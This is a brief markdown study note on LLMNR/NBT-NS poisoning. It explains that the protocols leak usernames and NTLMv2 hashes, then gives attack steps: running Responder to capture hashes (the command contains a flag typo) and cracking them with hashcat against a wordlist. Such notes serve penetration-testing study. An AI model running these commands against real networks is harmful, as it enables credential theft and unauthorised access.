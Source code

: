 ___
### What is LLMNR?
- Used to identify hosts when DNS fails to do so.
- Previously NBT-NS
- Key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded to.

### Steps:

- Step1 : Run Responder
```
sudo responder -| tun0 -dwp
```

- Step 2 : An Event Occurs...
- Step 3 : Get Dem Hash
- Step 4 : Crack that Hash
```
hashcat -m 5600 hashes.txt rockyou.txt
```
